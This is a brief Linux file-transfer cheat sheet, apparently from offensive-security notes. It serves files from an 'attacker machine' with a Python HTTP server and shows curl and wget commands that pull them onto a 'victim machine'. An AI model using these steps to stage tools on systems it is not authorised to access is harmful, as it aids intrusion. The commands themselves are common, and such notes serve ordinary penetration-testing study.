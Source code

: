 # linux - file transfer

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using curl.
```shell
curl http://me:8888/filename -o filename	
```

- Victim machine using wget.
```shell
wget http://me:8888/filename -O filename
```

- Check integrity after file transfer using

```shell
md5sum file
```
